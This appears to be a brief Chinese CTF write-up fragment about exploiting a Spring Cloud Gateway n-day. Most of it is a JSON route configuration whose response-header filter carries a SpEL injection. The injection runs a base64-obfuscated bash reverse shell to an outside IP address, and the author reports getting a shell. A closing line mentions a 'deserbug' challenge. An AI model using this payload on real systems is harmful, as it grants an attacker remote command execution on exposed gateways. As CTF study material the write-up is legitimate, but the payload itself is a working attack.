打个NDAY找半天怎么放poc哈哈

或者是

```json
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "lb://service-provider",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTYuMjM4LjIzMy45My8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\\n','').replaceAll('\\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```

然后就拿到shell了

## deserbug

CC3的一种新打法？寒假必打，现在就不学了思密达
